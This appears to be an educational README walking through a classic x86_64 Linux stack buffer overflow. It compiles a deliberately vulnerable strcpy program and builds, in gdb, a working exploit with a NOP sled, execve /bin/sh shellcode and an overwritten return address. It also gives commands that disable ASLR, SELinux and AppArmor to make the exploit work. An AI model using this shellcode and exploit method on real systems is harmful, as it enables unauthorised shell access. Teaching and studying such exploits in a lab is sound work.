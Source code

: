 ### Smashing the stack the old way ###

First of all we need some dependencies

```
sudo apt-get install gcc gdb
```

We asume that we have python2.7 installed beacuse we are going to use "\xHH" for escaping bytes and python3 doesnt handle them very well. Blame utf8 by default in this thing "\xHH" in python3.
We asume the target system fo the reader is a linux box x86_64, in other sistems should follow throught this readme with some minor modifications by the reader

Lets begin with a inocent program
```
#include<stdio.h>
#include<string.h>

int main(int argc, char** argv) {
    char buffer[500];
    strcpy(buffer, argv[1]);
    return 0;
}

```

Lets compile it
```
gcc vuln.c -o vuln

```

Attempting execution with a simple string such as 'hello' returns no errors
```
$ ./vuln hello
```

Now if we send more than what we defined in our buffer
```
$ ./vuln $(python -c 'print "\x41" * 524 ')
Segmentation fault
```

This means that we overrun the buffer

Lets retry this in the GDB debuger:

```
$ gdb vuln
(gdb) run $(python -c 'print "\x41" * 524 ')
Program received signal SIGSEGV, Segmentation fault.
0x00007f0041414141 in ?? ()
```

Now lets check the registers

```
(gdb) info reg
rip            0x7f0041414141   0x7f0041414141
```
This means that now we control what the rip register point to.
This is our powerfull weapon beacuse this is the vulnerability itself,
becuse if we can control rip we can point it to our malicious code.

Lets Introduce the nop-sled:

The NOOP instruction tells the CPU to do nothing and move to the next instruction.
The nop sled is like: pincture Boba Fet falling into the Sarlacc pit.
Anywhere we land into the middle of a nop-sled we end up in the same place.
And in the end of the nop-sled we are going to put our shellcode.
Then our main idea is to put a big enought nop-sled that takes almost all the buffer up to almost the address where rip is.

Again we run our inocent program with a bunch of nops
```
(gdb) run $(python -c 'print "\x90" * 524 ')
Program received signal SIGSEGV, Segmentation fault.
0x00007f0090909090 in ?? ()
```
The same happens but the rip address not points to **0x00007f0090909090**

We need to add to the end of the nop-sled our shellcode **"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"**

This is a generic linux-x86_64 execve /bin/sh shellcode

Its asm code is:
```
   0:   48 31 f6                xor    %rsi,%rsi
   3:   56                      push   %rsi
   4:   48 bf 2f 62 69 6e 2f    movabs $0x68732f2f6e69622f,%rdi
   b:   2f 73 68 
   e:   57                      push   %rdi
   f:   54                      push   %rsp
  10:   5f                      pop    %rdi
  11:   b0 3b                   mov    $0x3b,%al
  13:   99                      cltd   
  14:   0f 05                   syscall 
  16:   0a                      .byte 0x
```

Appending it and executing our exploit again:
```
(gdb) run $(python -c 'print "\x90" * 524 + "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"  ')
Program received signal SIGSEGV, Segmentation fault.
0x0000555555555173 in main ()
```
As we can see the resulting address **0x0000555555555173** is not even in the stack range
we can check this with:

```
(gdb) info proc mappings
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
      0x555555555000     0x555555556000     0x1000     0x1000 /home/dclavijo/stack_smashing/vuln
      0x7ffff7f87000     0x7ffff7f8a000     0x3000   0x1bb000 /lib/x86_64-linux-gnu/libc-2.30.so
      0x7ffff7fce000     0x7ffff7fd2000     0x4000        0x0 [vvar]
      0x7ffff7fd2000     0x7ffff7fd4000     0x2000        0x0 [vdso]
      0x7ffff7fd4000     0x7ffff7fd5000     0x1000        0x0 /lib/x86_64-linux-gnu/ld-2.30.so
      .
      .
      .
      0x7ffff7ffd000     0x7ffff7ffe000     0x1000    0x28000 /lib/x86_64-linux-gnu/ld-2.30.so
      0x7ffffffde000     0x7ffffffff000    0x21000        0x0 [stack]

```
Our stack is in the region of **0x7ffffffde000-0x7ffffffff000**.
this means that our nop-sled will need to covert all this region and our rip address will need to point to some place in this region.
lets say: **0x7fffffffdead**
We also need to substract the payload from the nop sled, the payload is 23 bytes so 524-23

Lets hit it again:
```
(gdb) run $(python -c 'print "\x90" * (524-23) + "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"  ')
Program received signal SIGSEGV, Segmentation fault.
0x00007fff00050f99 in ?? ()
```
We are getting close:

Fur last we need to add our rip address that is going to be overwriten:
ived signal SIGSEGV, Segmentation fault.

witch is **0x7fffffffdead** and in the x86_64 machine endianess:
We are going to add it more than one time because we are overwriting registers in ram so we dont know where exactly they are we only kknow that we need to be aligned in order for it to work. And we need to substract it from our nop-sled to not overshoot.

Lets try:
```
(gdb) run $(python -c 'print "\x90" * (524-23-30) + "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05" + "\x7f\xff\xff\xff\xde\xad"[::-1] * 5  ')
Program received signal SIGSEGV, Segmentation fault.
0xffffffdead050f99 in ?? ()
```

We got very close:

**0xffffffdead050f99** is not the address we wanted to **0x7fffffffdead**
**0x7fffffffdead** is our return address in the middle of the nop-sled wen we overflow the RIP register wil point to this address and then the exploit begins.

We need to align our exploit to the machine registers in ram 
A +2 will suffice

```
(gdb) run $(python -c 'print "\x90" * (524-23-30+2) + "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05" + "\x7f\xff\xff\xff\xde\xad"[::-1] * 5  ')
```

Voila, we landed into the mouth of the Sarlacc, but why didn't our exploit worked at all?

```
(gdb) run $(python -c 'print "\x90" * (524-22-30+2) + "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05" + "\x7f\xff\xff\xff\xde\xad"[::-1] * 5  ')
Program received signal SIGSEGV, Segmentation fault.
0x00007fffffffdead in ?? ()
```

But why didnt our exploit worked at all?

Lets inspect our RIP or (return instruction pointer):

```
0x00007fffffffdead in ?? ()
(gdb) x/10x 0x00007fffffffdead
0x7fffffffdead: 0x90909090  0x90909090  0x90909090  0x90909090
0x7fffffffdebd: 0x90909090  0x90909090  0x90909090  0x90909090
0x7fffffffdecd: 0x90909090  0x90909090
```

We can seed that effectively we landed in the middle of our nop-sled but nothing happened.
This is beacuse newer versions of gcc and linux by default set the execution bit of the stack page to disabled.
So we need to recompile again our inocent code disabling the stack execution protection.

```
gcc -z execstack  -g -fno-inline -fno-stack-protector -fno-pie -O0  vuln.c -o vuln
```

Lets hit it one more time
```
gdb vuln
(gdb) run $(python -c 'print "\x90" * (524-22-30+2) + "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05" + "\x7f\xff\xff\xff\xde\xad"[::-1] * 5  ')
$
```
Holy shiet, we have our first shell executed from a an expoit!!!

Lets try one more thing, lets execute it outside gdb:

```
./vuln $(python -c 'print "\x90" * (524-22-30+2) + "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05" + "\x7f\xff\xff\xff\xde\xad"[::-1] * 5  ')
Segmentation fault
```
WTF? why didn't work?
Newer versions of linux include ASLR or Address space layout randomization.
ASLR is a technique of address randomization witch re arranges the internal mappings of the sections of a process memory.
Our exploit didn't work beacuse we are asumming our program stack is going to be fixed in the range **0x7ffffffde000-0x7ffffffff000** and ASLR efectively prevents it to work beacuse in linux is enabled by defaut.
But we can disable it momentarily

```
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
Also we may need to disable selinux and apparmor in order for this exploit to work:
```
sudo setenforce 0
sudo systemctl stop apparmor

```
And for last time:
```
./vuln $(python -c 'print "\x90" * (524-22-30+2) + "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05" + "\x7f\xff\xff\xff\xde\xad"[::-1] * 5  ')
$
```


We got our exploit working.


References

* https://en.wikipedia.org/wiki/NOP_slide
* https://en.wikipedia.org/wiki/Address_space_layout_randomization
* http://phrack.org/issues/49/14.html

